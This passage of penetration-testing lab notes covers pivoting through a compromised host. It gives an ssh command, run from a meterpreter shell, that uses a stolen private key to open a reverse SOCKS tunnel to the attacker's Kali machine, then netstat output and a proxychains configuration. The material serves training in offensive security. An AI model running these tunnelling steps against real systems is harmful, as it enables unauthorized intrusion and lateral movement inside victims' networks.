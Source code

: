 - Running this command in the meterpreter shell should initiate the ssh connection to our Kali machine.

```bash
<span custom-style="BoldCodeUser">ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null"
-o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@10.11.0.4/cu>
Warning: Permanently added '10.11.0.4' (ECDSA) to the list of known hosts.
```

- We can **double check that the port was opened by running netstat on our Kali system**.

```bash
kali@kali:~$ sudo netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:111 0.0.0.0:* LISTEN 1/systemd
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 645/sshd
tcp 0 0 127.0.0.1:1080 0.0.0.0:* LISTEN 99765/sshd: kali
tcp6 0 0 :::111 :::* LISTEN 1/systemd
tcp6 0 0 :::22 :::* LISTEN 645/sshd
tcp6 0 0 ::1:1080 :::* LISTEN 99765/sshd: kali
udp 0 0 0.0.0.0:1194 0.0.0.0:* 94368/openvpn
udp 0 0 0.0.0.0:111 0.0.0.0:* 1/systemd
udp6 0 0 :::111 :::* 1/systemd
```

- With the dynamic reverse tunnel established, we can configure proxychains on Kali to use the SOCKS proxy.

-   We can do this by opening **etc/proxychains.conf ** and editing the last line, specifying port 1080.

```bash
# proxychains.conf VER 3.1
#
# HTTP, SOCKS4, SOCKS5 tunneling proxifier with DNS.
#
 ...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4 127.0.0.1 1080
```

[[Proxy chain | How proxy chains work]]